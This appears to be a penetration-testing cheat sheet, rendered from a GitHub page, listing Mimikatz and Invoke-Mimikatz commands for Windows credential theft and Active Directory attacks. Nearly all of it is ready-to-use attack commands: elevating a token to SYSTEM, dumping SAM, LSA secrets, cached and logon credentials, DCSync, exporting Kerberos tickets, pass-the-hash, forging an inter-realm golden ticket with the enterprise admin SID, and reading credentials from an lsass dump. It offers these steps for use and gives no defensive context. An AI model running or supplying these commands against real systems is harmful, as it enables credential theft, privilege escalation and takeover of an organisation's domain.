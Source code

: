 ### Source 
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://github.com/gentilkiwi/mimikatz  

### Elevate to system ("token::revert" to drop token)
```
Invoke-Mimikatz -Command '"token::elevate"'
```

### Dump credentials
```
Domain Cached Credential - "lsadump::cache"
Security Hives - "lsadump::sam"
Machine Accounts "lsadump::secrets"
Local Security Authority Substem Service - "sekurlsa::logonPasswords full"
Data Protection API - "vault::cred"
```

### Execute DCSync for single user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /user:<user>"'
```

### Export all tickets from memory
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### Pass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmHash>"'
```

### Inter realm golden ticket - can be done offline, since domain controller connection is not necessary (/endin = validity period 60 minutes, /user can be fictitious, -519 is the SID of enteprise admin)
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<attackerAccount> /domain:<compromisedDomain> /sid:<sidCompromisedDomain> /sids:<sidTargetDomain>-519 /krbtgt:<ntlmHashKrbTgt> /endin:60"'
```

### Dump credentials from lsass dump
```
mimikatz.exe
mimi> sekurlsa::minidump <file>.dmp
mimi> sekurlsa::logonPasswords full
```

### Write output of command to file
```
mimi> log <file>.txt
```

